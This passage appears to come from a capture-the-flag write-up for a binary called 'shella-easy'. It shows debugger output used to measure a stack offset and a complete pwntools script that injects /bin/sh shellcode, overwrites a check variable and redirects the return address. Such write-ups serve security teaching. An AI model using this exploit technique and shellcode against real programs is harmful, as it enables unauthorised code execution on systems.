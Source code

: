 ```
    0x8048541 <main+102>       cmp    DWORD PTR [ebp-0x8], 0xdeadbeef
    0x8048548 <main+109>       je     0x8048551 <main+118>
    0x804854a <main+111>       push   0x0
    0x804854c <main+113>       call   0x80483a0 <exit@plt>
    0x8048551 <main+118>       mov    eax, 0x0
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "shella-easy", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x804853e → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x0804853e in main ()
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rwx
  0xffffd020 - 0xffffd028  →   "15935728" 
gef➤  i f
Stack level 0, frame at 0xffffd070:
 eip = 0x804853e in main; saved eip = 0xf7defe81
 Arglist at 0xffffd068, args: 
 Locals at 0xffffd068, Previous frame's sp is 0xffffd070
 Saved registers:
  ebx at 0xffffd064, ebp at 0xffffd068, eip at 0xffffd06c
```

So we can see that the offset is `0xffffd06c - 0xffffd020 = 0x4c`, between the start of our input and the saved return address. 

So our payload will be this. We will start off with the shellcode. Then after the shellcode, we will add on filler bytes, until we reach offset `0x40` from the start of our input, which is the value we need to overwrite. We will place `0xdeadbeef` therem abd then the final `0x8` bytes to the return address. Then we will use the infoleak, and place the address of our shellcode there. With that we have everything we need to make the exploit:

```
from pwn import *

target = process('./shella-easy')
#gdb.attach(target, gdbscript = 'b *0x804853e')

# Scan in the first line of text, parse out the infoleak
leak = target.recvline()
leak = leak.strip(b"Yeah I'll have a ")
leak = leak.strip(b" with a side of fries thanks\n")
shellcodeAdr = int(leak, 16)

# Make the payload
payload = b""
# This shellcode is from: http://shell-storm.org/shellcode/files/shellcode-827.php`
payload += b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
payload += b"0"*(0x40 - len(payload)) # Padding to the local_c variable
payload += p32(0xdeadbeef) # Overwrite the local_c variable with 0xdeadbeef
payload += b"1"*8 # Padding to the return address
payload += p32(shellcodeAdr) # Overwrite the return address to point to the start of our shellcode

# Send the payload
target.sendline(payload)
```